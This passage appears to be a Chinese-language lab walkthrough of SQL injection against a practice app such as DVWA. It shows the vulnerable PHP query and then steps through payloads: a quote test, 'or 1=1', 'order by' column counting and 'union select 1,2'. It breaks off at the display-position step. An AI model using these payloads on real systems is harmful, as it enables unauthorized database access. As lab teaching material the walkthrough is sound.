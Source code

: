 ![all](https://z3.ax1x.com/2021/04/13/cyd4L4.png)

由此可以判断，这里**存在注入点**，而且是**字符型注入点**，即后台处我们输入的数据（看下面源码，即'$id'）被引号引起来了

```
$query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
```

我们根据源码来进行分析  
源码是 php 代码，所以在数据库中执行的查询实际上是（去掉最外面的引号）

```
SELECT first_name, last_name FROM users WHERE user_id = '$id';

输入“1'”：SELECT first_name, last_name FROM users WHERE user_id = '1'';
因为引号不匹配所以报错，这个时候就推测是字符型注入

输入“1 or 1=1”：SELECT first_name, last_name FROM users WHERE user_id = '1' or '1' = '1';
相当于WHERE（user_id = '1' ）or（'1' = '1'），因为'1' = '1'是永真，
所以对于所有记录WHERE的条件都永远成立，所以查询到所有记录

输入“1 or 1=2”：SELECT first_name, last_name FROM users WHERE user_id = '1 or 1=2';
同理，WHERE（user_id = '1' ）or（'1' = '2'），'1' = '2'永假，
所以只有user_id = '1'成立才成功查询
```

###### 2. 检测字段数

我们假装不知道源码，看看这条查询语句查找了多少字段（看了源码我们知道答案是两个，first_name 和 last_name）

```
输入“1' order by 1#”，正常显示
输入“1' order by 2#”，正常显示
输入“1' order by 3#”，报错“Unknown column '3' in 'order clause'”

注：#能将后面的语句注释掉
```

**由此可以确定只有 2 个字段**

接着分析一波

```
输入“1' order by 1#”：SELECT first_name, last_name FROM users WHERE user_id = '1' order by 1#';
因为#注释掉了后面的内容（其实就注释了一个引号），查询语句变为
SELECT first_name, last_name FROM users WHERE user_id = '1' order by 1
order by 可以将查询结果根据某字段排序，order by 1就说明根据第1个字段（first_name）排序，
同理，输入order by 2就根据第2个字段（last_name）排序.
而输入order by 3，因为一共只有两个字段，所以报错。
由此分析出共查询到2个字段
```

###### 3. 确定显示位置

其实就是确定我们之后注入的查询结果分别在页面的哪个地方被显示  
如果上一步发现只查询了一个字段，那么其实这一步就可以不做了，只有一个位置，还能在哪显示？

```
输入“1' union select 1,2#”，额外显示一个结果

ID: 1' union select 1,2#
First name: admin
Surname: admin

ID: 1' union select 1,2#
First name: 1
Surname: 2
```
